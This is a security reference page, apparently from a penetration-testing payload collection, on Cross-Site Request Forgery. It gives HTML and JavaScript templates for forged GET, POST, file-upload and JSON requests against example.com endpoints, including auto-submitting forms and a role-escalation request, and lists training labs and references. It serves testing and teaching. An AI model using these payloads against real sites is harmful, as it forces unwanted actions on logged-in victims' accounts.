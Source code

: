 # Cross-Site Request Forgery

> Cross-Site Request Forgery (CSRF/XSRF) is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated. CSRF attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. - OWASP


## Summary

* [Tools](#tools)
* [Methodology](#methodology)
    * [HTML GET - Requiring User Interaction](#html-get---requiring-user-interaction)
    * [HTML GET - No User Interaction](#html-get---no-user-interaction)
    * [HTML POST - Requiring User Interaction](#html-post---requiring-user-interaction)
    * [HTML POST - AutoSubmit - No User Interaction](#html-post---autosubmit---no-user-interaction)
    * [HTML POST - multipart/form-data With File Upload - Requiring User Interaction](#html-post---multipartform-data-with-file-upload---requiring-user-interaction)
    * [JSON GET - Simple Request](#json-get---simple-request)
    * [JSON POST - Simple Request](#json-post---simple-request)
    * [JSON POST - Complex Request](#json-post---complex-request)
* [Labs](#labs)
* [References](#references)


## Tools

* [0xInfection/XSRFProbe](https://github.com/0xInfection/XSRFProbe) - The Prime Cross Site Request Forgery Audit and Exploitation Toolkit.


## Methodology

![CSRF_cheatsheet](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Cross-Site%20Request%20Forgery/Images/CSRF-CheatSheet.png)

When you are logged in to a certain site, you typically have a session. The identifier of that session is stored in a cookie in your browser, and is sent with every request to that site. Even if some other site triggers a request, the cookie is sent along with the request and the request is handled as if the logged in user performed it.


### HTML GET - Requiring User Interaction

```html
<a href="http://www.example.com/api/setusername?username=CSRFd">Click Me</a>
```


### HTML GET - No User Interaction

```html
<img src="http://www.example.com/api/setusername?username=CSRFd">
```


### HTML POST - Requiring User Interaction

```html
<form action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
```


### HTML POST - AutoSubmit - No User Interaction

```html
<form id="autosubmit" action="http://www.example.com/api/setusername" enctype="text/plain" method="POST">
 <input name="username" type="hidden" value="CSRFd" />
 <input type="submit" value="Submit Request" />
</form>
 
<script>
 document.getElementById("autosubmit").submit();
</script>
```


### HTML POST - multipart/form-data With File Upload - Requiring User Interaction

```html
<script>
function launch(){
    const dT = new DataTransfer();
    const file = new File( [ "CSRF-filecontent" ], "CSRF-filename" );
    dT.items.add( file );
    document.xss[0].files = dT.files;

    document.xss.submit()
}
</script>

<form style="display: none" name="xss" method="post" action="<target>" enctype="multipart/form-data">
<input id="file" type="file" name="file"/>
<input type="submit" name="" value="" size="0" />
</form>
<button value="button" onclick="launch()">Submit Request</button>
```


### JSON GET - Simple Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.example.com/api/currentuser");
xhr.send();
</script>
```


### JSON POST - Simple Request

With XHR :

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
//application/json is not allowed in a simple request. text/plain is the default
xhr.setRequestHeader("Content-Type", "text/plain");
//You will probably want to also try one or both of these
//xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
//xhr.setRequestHeader("Content-Type", "multipart/form-data");
xhr.send('{"role":admin}');
</script>
```

With autosubmit send form, which bypasses certain browser protections such as the Standard option of [Enhanced Tracking Protection](https://support.mozilla.org/en-US/kb/enhanced-tracking-protection-firefox-desktop?as=u&utm_source=inproduct#w_standard-enhanced-tracking-protection) in Firefox browser :

```html
<form id="CSRF_POC" action="www.example.com/api/setrole" enctype="text/plain" method="POST">
// this input will send : {"role":admin,"other":"="}
 <input type="hidden" name='{"role":admin, "other":"'  value='"}' />
</form>
<script>
 document.getElementById("CSRF_POC").submit();
</script>
```

### JSON POST - Complex Request

```html
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.example.com/api/setrole");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"role":admin}');
</script>
```


## Labs

* [PortSwigger - CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)
* [PortSwigger - CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-request-method)
* [PortSwigger - CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/lab-token-validation-depends-on-token-being-present)
* [PortSwigger - CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/lab-token-not-tied-to-user-session)
* [PortSwigger - CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie)
* [PortSwigger - CSRF where token is duplicated in cookie](https://portswigger.net/web-security/csrf/lab-token-duplicated-in-cookie)
* [PortSwigger - CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)
* [PortSwigger - CSRF with broken Referer validation](https://portswigger.net/web-security/csrf/lab-referer-validation-broken)


## References

- [Cross-Site Request Forgery Cheat Sheet - Alex Lauerman - April 3rd, 2016](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
- [Cross-Site Request Forgery (CSRF) - OWASP - Apr 19, 2024](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
- [Messenger.com CSRF that show you the steps when you check for CSRF - Jack Whitton - July 26, 2015](https://whitton.io/articles/messenger-site-wide-csrf/)
- [Paypal bug bounty: Updating the Paypal.me profile picture without consent (CSRF attack) - Florian Courtial - 19 July 2016](https://web.archive.org/web/20170607102958/https://hethical.io/paypal-bug-bounty-updating-the-paypal-me-profile-picture-without-consent-csrf-attack/)
- [Hacking PayPal Accounts with one click (Patched) - Yasser Ali - 2014/10/09](https://web.archive.org/web/20141203184956/http://yasserali.com/hacking-paypal-accounts-with-one-click/)
- [Add tweet to collection CSRF - Vijay Kumar (indoappsec) - November 21, 2015](https://hackerone.com/reports/100820)
- [Facebookmarketingdevelopers.com: Proxies, CSRF Quandry and API Fun - phwd - October 16, 2015](http://philippeharewood.com/facebookmarketingdevelopers-com-proxies-csrf-quandry-and-api-fun/)
- [How I Hacked Your Beats Account? Apple Bug Bounty - @aaditya_purani - 2016/07/20](https://aadityapurani.com/2016/07/20/how-i-hacked-your-beats-account-apple-bug-bounty/)
- [FORM POST JSON: JSON CSRF on POST Heartbeats API - Eugene Yakovchuk - July 2, 2017](https://hackerone.com/reports/245346)
- [Hacking Facebook accounts using CSRF in Oculus-Facebook integration - Josip Franjkovic - January 15th, 2018](https://www.josipfranjkovic.com/blog/hacking-facebook-oculus-integration-csrf)
- [Cross Site Request Forgery (CSRF) - Sjoerd Langkemper - Jan 9, 2019](http://www.sjoerdlangkemper.nl/2019/01/09/csrf/)
- [Cross-Site Request Forgery Attack - PwnFunction - 5 Apr. 2019](https://www.youtube.com/watch?v=eWEgUcHPle0)
- [Wiping Out CSRF - Joe Rozner - Oct 17, 2017](https://medium.com/@jrozner/wiping-out-csrf-ded97ae7e83f)
- [Bypass Referer Check Logic for CSRF - hahwul - Oct 11, 2019](https://www.hahwul.com/2019/10/11/bypass-referer-check-logic-for-csrf/)